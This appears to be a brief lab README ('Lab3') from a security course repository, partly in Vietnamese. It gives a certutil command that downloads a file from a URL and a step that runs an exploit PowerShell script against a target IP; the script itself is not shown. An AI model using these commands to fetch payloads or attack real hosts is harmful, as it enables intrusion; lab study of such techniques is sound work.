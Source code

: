 # Lab3
download file in cmd:
certutil -urlcache -split -f %url% %file%

Thực thi:
powershell.exe exploit.ps1 <ip>

